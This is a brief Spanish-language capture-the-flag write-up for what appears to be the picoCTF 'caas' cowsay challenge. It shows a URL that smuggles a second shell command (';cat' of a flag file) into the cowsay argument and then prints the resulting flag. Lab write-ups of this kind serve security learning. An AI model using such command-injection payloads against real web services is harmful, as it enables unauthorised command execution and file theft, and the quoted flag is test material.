 # Solucion

Nos movemos en los doirectorios del archivo .js y ponemos este comando para revelar la bandera 
```
https://caas.mars.picoctf.net/cowsay/asfwef;%20cat%20falg.txt
```
Bandera
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}